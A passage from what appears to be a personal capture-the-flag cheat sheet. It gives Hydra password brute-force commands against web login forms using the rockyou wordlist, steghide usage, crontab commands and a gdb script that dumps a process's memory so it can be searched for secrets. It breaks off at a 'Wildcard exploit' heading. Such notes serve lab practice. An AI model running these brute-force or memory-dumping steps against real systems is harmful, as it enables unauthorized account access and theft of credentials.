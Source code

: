 -t = Number of threads
-l = single username
-P = password list
-V = verborse output for every attempt

- http-form-post = `hydra -l miles -P /usr/share/wordlists/rockyou.txt 10.10.89.9 http-form-post "/squirrelmail/src/redirect.php:login_username=milesdyson&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=incorrect"`
- `hydra -l admin@dummybank.com -P /usr/share/wordlists/rockyou.txt dummybank.com -s 5000 http-post-form "/login:{\"email\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:F=Error\:\"Invalid email or password.\""`

# Steganography <a name="stegano"></a>

## steghide

<b>embedfile</b> = The file that contains a secret message<br/>
<b>coverfile</b> = The file that will be used to embed the secret message<br/>
<b>stegofile</b> = The file that has the secret inside of it<br/>

- `steghide embed -ef secret.txt -cf test1.jpg -p thisIsMyPassword` <-- hide file
- `steghide extract -sf test1.jpg -p thisIsMyPassword` <-- extract file

# Cronjobs <a name="cronjobs"></a>

List jobs = `crontab -l`
Edit jobs = `crontab -e`

# Linux exploits <a name="linux_exploits"></a>

## Dump memory of a process

Find the process id with: `ps aux | grep "process"`
Then create the script below in a sh file and chmod +x it.

```bash
#!/bin/bash
grep rw-p /proc/$1/maps \
| sed -n 's/^\([0-9a-f]*\)-\([0-9a-f]*\) .*$/\1 \2/p' \
| while read start stop; do \
  gdb --batch --pid $1 -ex \
    "dump memory $1-$start-$stop.dump 0x$start 0x$stop"; \
done
```

Finally: `./script.sh <process_id>`
Now: `strings *.dump | grep "secret"`

## Wildcard exploit
